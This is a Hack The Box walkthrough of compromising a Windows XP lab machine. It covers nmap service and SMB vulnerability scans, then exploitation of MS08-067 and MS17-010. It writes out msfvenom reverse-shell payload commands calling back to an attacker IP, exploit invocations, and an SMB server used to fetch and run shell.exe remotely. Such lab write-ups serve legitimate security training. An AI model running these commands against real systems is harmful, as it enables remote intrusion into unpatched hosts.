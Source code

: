 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | <img src="images/1.png" width="555"/></a> |

# Table of contents

<!-- MarkdownTOC -->

- [Information Gathering](#information-gathering)
	- [Openning Services](#openning-services)
	- [Server Message Block](#server-message-block)
- [Foothold](#foothold)
	- [Microsoft Windows Server 2000/2003 - Code Execution \(MS08-067\)](#microsoft-windows-server-20002003---code-execution-ms08-067)
	- [Microsoft Security Bulletin MS17-010 \(EternalBlue/MS17-010\)](#microsoft-security-bulletin-ms17-010-eternalbluems17-010)
	- [Transfer and execute file using python smb](#transfer-and-execute-file-using-python-smb)
- [Reference](#reference)

<!-- /MarkdownTOC -->

## Information Gathering

### Openning Services

+ SMB Windows XP

```
### Port Scanning ############################
nmap -sS -Pn -p- --min-rate 1000 10.10.10.4
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

[+] Openning ports: 139,445,3389

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.4 -p139,445,3389
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-27 16:50 +07
Nmap scan report for 10.10.10.4
Host is up (0.26s latency).

PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h29m07s, deviation: 2h07m16s, median: 4d22h59m07s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:e0:2d (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-05-02T14:49:37+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.45 seconds
```

### Server Message Block

Using `nmap` to scan smb vulnerability:

```
┌──(Hades㉿10.10.14.5)-[0.6:18.5]~/scripting
└─$ nmap -p 139,445 --script smb-vul* 10.10.10.4 -Pn
<snip>
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
<snip>
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
<snip>
```

## Foothold

### Microsoft Windows Server 2000/2003 - Code Execution (MS08-067)

Using exploit <a href='https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py' target="blank">ms08-067.py</a> to get reverse shell in the server.

Modify exploit by `REPLACE SHELLCODE with shellcode generated by msfvenom` with the bad chars: `"\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"`

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

Convert `ms08-067.py` to python3

```
2to3 ms08-067.py
```

Execute exploit

```bash
python3 ms08-067.py 10.10.10.4 6 445 > /dev/null
```

![](images/2.png)

### Microsoft Security Bulletin MS17-010 (EternalBlue/MS17-010)

Using exploit `send_and_execute.py` at <a href='https://github.com/helviojunior/MS17-010' target="blank">https://github.com/helviojunior/MS17-010</a>

Generate reverse shell file `shell.exe` in the same payload's folder using `msfvenom`.

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe
```

Execute exploit

```bash
python send_and_execute.py 10.10.10.4 shell.exe > /dev/null
```

![](images/5.png)

I also custom exploit file by input command to execution.

```
sudo smbserver.py public . > /dev/null
```

```
python cmd.py 10.10.10.4 '\\10.10.14.3\public\shell.exe' > /dev/null
```

![](images/6.png)

### Transfer and execute file using python smb

Create smb server in Kali Machine to check privilege.

```
sudo smbserver.py public /usr/share/windows-resources/binaries/ > /dev/null
```

At the client, execute command `whoami`

```
\\10.10.14.3\public\whoami.exe
```

## Reference

[https://github.com/worawit/MS17-010](https://github.com/worawit/MS17-010)

<a href='https://0xdf.gitlab.io/2019/02/21/htb-legacy.html' target="blank">https://0xdf.gitlab.io/2019/02/21/htb-legacy.html</a>

<a href='https://pycryptodome.readthedocs.io/en/latest/src/installation.html' target="blank">https://pycryptodome.readthedocs.io/en/latest/src/installation.html</a>